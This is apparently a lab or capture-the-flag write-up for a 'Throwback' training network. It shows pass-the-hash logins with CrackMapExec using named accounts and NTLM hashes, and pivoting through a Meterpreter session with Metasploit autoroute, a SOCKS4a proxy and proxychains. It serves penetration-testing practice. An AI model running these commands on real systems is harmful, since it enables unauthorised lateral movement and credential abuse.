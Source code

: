 ## PWNing using CrackMapExec:

```bash
proxychains crackmapexec smb 10.200.19.222 -u BlaireJ -d THROWBACK -H c374ecb7c2ccac1df3a82bce4f80bb5b
proxychains crackmapexec smb 10.200.19.222 -u HumphreyW -d THROWBACK -H 1c13639dba96c7b53d26f7d00956a364
```

Before doing this, we must first setup proxychains:
In order to so, obtain a meterpreter session.
Then:

```bash
$ background
$ use post/multi/manage/autoroute
$ set SESSION 1
$ set SUBNET 10.200.19.0/24
$ exploit
```
Once this is done, setup the proxy server using the same metasploit session:

```bash
use auxiliary/server/socks_proxy
set VERSION 4a
exploit
```

Proxy server is now setup successfully.

## Note: Setup the same server in FoxyProxy
SOCKS4A:127.0.0.1:1080
